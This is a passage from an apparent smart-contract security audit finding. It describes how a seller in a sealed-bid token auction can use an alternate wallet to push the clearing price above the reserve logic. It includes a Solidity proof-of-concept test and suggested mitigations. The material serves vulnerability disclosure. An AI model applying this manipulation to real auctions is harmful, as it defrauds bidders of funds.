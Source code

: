 Whether this results in a net increase of the total amount received is not a limiting factor as they might very well be happy with a lower total amount of quote tokes if it means selling less of the base tokens.

Ultimately this means the reserve price for the auction is not respected which would make bidders distrust the system. Bidders that don’t realize this impact stand to pay a much higher price than anticipated, hence the HIGH risk rating.

### [](#proof-of-concept-6)Proof of Concept

Following test shows the seller knowing the highest price can force the clearing price (`lowestQuote`) to be 2e6 in stead of what would be 1e6. `sellerIncreases` can be set to true or false to simulate both cases.

        function testAuctionSellerIncreasesClearing() public {
            bool sellerIncreases = true;
            (uint256 sellerBeforeQuote, uint256 sellerBeforeBase) = seller.balances();
            uint256 aid = seller.createAuction(
                baseToSell, reserveQuotePerBase, minimumBidQuote, startTime, endTime, unlockTime, unlockEnd, cliffPercent
            );
            bidder1.setAuctionId(aid);
            bidder2.setAuctionId(aid);
            bidder1.bidOnAuctionWithSalt(9 ether, 18e6, "bidder1");
            bidder2.bidOnAuctionWithSalt(1 ether, 1e6, "bidder2");
            uint256[] memory bidIndices = new uint[](2);
            bidIndices[0] = 0;
            bidIndices[1] = 1;
            uint128 expectedClearingPrice = 1e6;
            if (sellerIncreases){
                //seller's altnerate wallet
                bidder3.setAuctionId(aid);
                bidder3.bidOnAuctionWithSalt(1 ether, 2e6, "seller");
                bidIndices = new uint[](3);
                bidIndices[0] = 0;
                bidIndices[1] = 2;
                bidIndices[2] = 1;
                expectedClearingPrice = 2e6;
            }          
            vm.warp(endTime + 1);
            seller.finalize(bidIndices, 1 ether, expectedClearingPrice);
            AuctionData memory data = auction.getAuctionData(aid);
            emit log_named_uint("lowestBase", data.lowestBase);
            emit log_named_uint("lowestQuote", data.lowestQuote);
        }

### [](#recommended-mitigation-steps-6)Recommended Mitigation Steps

A possible mitigation would be to introduce a 2 step reveal where the bidders also encrypt their bid with their own private key and only reveal their key after the seller has revealed theirs. This would however create another attack vector where bidders try and game the auction and only reveal their bid(s) when and if the result would be in their best interest. This in turn could be mitigated by bidders losing (part of) their quote tokens when not revealing their bids.
